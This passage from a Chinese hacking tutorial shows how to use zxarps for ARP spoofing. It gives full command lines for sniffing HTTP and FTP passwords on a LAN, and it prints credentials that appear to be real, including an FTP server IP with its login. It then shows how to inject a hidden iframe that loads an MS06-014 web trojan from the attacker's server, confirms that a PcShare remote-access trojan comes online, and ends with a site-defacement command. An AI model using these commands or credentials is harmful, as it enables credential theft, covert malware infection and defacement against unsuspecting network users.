

我们可以看到，嗅探到的是 192.168.3.102 访问外网网站的所有数据，里面并没有区分种类，所以我们很难判断出哪些是用户名或密码。

那么怎么通过命令来区分用户名和密码呢？这里就介绍一个小技巧，假如我们要嗅探 http://www.waok.net/ 网站的登录用户名和密码，可以访问登录页面，在网页上按鼠标右键选择查看源代码，找到其使用的用户名变量：username，和密码变量：password，如图 62。



知道登录所使用的用户名和密码变量名称后，我们就可以开始抓取了。输入命令：zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 80 -logfilter "+POST ,+ username, + password " -save_a sniff.log，执行过程如图 63。



在抓取了一会儿后，按 Ctrl+C 停止抓包，打开嗅探后的文件 sniff.log，显示内容如图 64。

我们可以看到，成功嗅探到目标网站 www.waok.net 的用户名：blackmask，密码：5201314。现在打开这个网站，确认一下用户名和密码，我们登录，成功进入，如图 65。



图 63

再来嗅嗅 FTP 的登录密码，相关命令的差别并不大，我们输入：zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 21 -spoofmode 2 -logfilter "_USER , _PASS" -save_a sniff.log 命令，这里的 FTP 用户密码信息关键字并不需要更改，用默认的就行了，执行结果如图 66。



图 64



图 65

我们可以看到，抓到了 2 个数据包，按 Ctrl+C 停止抓包，数据写入到 sniff.log 文件中。我们来打开 sniff.log 文本，内容如图 67。

可以看到，里面已经保存了嗅探到的用户名和密码。我们再来确认一下，打开 FTP 登录软件 flashfxp，输入地址：60.190.145.177，端口：21，用户名：txxz，密码：share，如图 68。

点击"连接"，成功登录 FTP，如图 69。



图 66



图 67

现在我们已经知道了如何进行 HTTP 和 FTP 的密码嗅探，这里我再讲一下将两种嗅探方式结合起来的命令：Zxarps.exe idx 0 ip 192.168.3.1-192.168.3.102 port 80,21 logfilter "+POST,+username,+password |_USER ,_PASS" -save_a sniff2.log，执行效果如图 70。

我们抓到 992 个数据包，按 Ctrl+C 停止抓包，打开保存后的日志文本 sniff2.log，文本有点大，打开会慢一些，如图 71。



#### 2.3.2.2 超级自定义挂马

所谓自定义挂马，也就是事先由我们准备好一个网马，比如：ms06014 网马，然后在本机架设 http 服务器。在 zxarps 开始欺骗时，插入马址，当被欺骗的主机打开任何网站都会浏览我们的马址，让对方不知不觉的中马。其实这个功能也成了一些 ARP 欺骗病毒的首选功能之一，操作的基本过程与前面使用 cain 时差不多，只不过改成了使用 zxarps 在命令行下进行嗅探。



首先当然是先生成木马服务端，然后建立 HTTP 服务器，接着生成一个 ms06014 网马，把生成后的 ms06014 网马改名 index.html 并和服务端文件一起复制到 HTTP 服务器所设置的 WEB 目录下。这些操作请参考 2.3.1.3 中已经讲述的内容。

然后在 CMD 中输入命令：zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 80 -insert "<iframe src='http:// 192.168.3.100/index.html' width=0 height=0>"，其中的"http:// 192.168.3.100/index.html"就是我们最后要执行的 MS06014 马址，执行后的效果如图 72。



从图 72 中反馈的信息来看，已经成功插入代码了，我们再看看 HTTP 服务器上有什么反应，如图 73。



图 71



图 72

这说明我们的网马已经被执行了，192.168.3.102 访问了我们的 http 服务器。再来看看 pcshare 客户端，马儿是否成功上线，如图 74。



图 73

Zxarps 还包含了一条比较整人的命令，比如输入：zxarps.exe -idx 0 -ip 192.168.3.1-192.168.3.102 -port 80 -hacksite -insert "hack by Black Mask<noframes>"，如图 75。

